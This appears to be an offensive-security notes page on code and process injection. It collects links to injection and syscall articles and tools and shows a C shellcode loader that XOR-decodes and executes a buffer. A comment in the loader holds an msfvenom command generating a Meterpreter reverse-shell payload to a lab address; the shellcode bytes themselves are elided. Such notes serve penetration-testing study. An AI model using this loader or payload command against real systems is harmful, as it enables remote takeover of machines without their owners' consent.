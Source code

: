 # Code Injection

* [https://yuval0x92.wordpress.com/2020/03/09/native-api-win32-api/](https://yuval0x92.wordpress.com/2020/03/09/native-api-win32-api/)
* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://www.solomonsklash.io/syscalls-for-shellcode-injection.html](https://www.solomonsklash.io/syscalls-for-shellcode-injection.html)
* [https://jhalon.github.io/utilizing-syscalls-in-csharp-1/](https://jhalon.github.io/utilizing-syscalls-in-csharp-1/)
* [https://jhalon.github.io/utilizing-syscalls-in-csharp-2/](https://jhalon.github.io/utilizing-syscalls-in-csharp-2/)
* [https://blog.xpnsec.com/weird-ways-to-execute-dotnet/](https://blog.xpnsec.com/weird-ways-to-execute-dotnet/)
* [https://github.com/jhalon/SharpCall](https://github.com/jhalon/SharpCall)




## Shellcode as Function

* [http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/)
* [https://www.fergonez.net/post/shellcode-csharp](https://www.fergonez.net/post/shellcode-csharp)
* [https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis](https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis)
* [https://github.com/byt3bl33d3r/OffensiveNim/issues/16](https://github.com/byt3bl33d3r/OffensiveNim/issues/16)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c)

Linux example. Compile allowing execution on stack:

```
$ gcc -o loader loader.c -z execstack
```

{% code title="loader.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33...\x33\x37";

int main (int argc, char **argv)
{
	int bufsize = (int)sizeof(buf);
	for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
	int (*ret)() = (int(*)())buf;
	ret();
}
```
{% endcode %}




## Tools



### Injector

* [https://github.com/0xDivyanshu/Injector](https://github.com/0xDivyanshu/Injector)
* [https://github.com/jfmaes/SharpZipRunner](https://github.com/jfmaes/SharpZipRunner)
* [https://github.com/plackyhacker/Shellcode-Injection-Techniques](https://github.com/plackyhacker/Shellcode-Injection-Techniques)
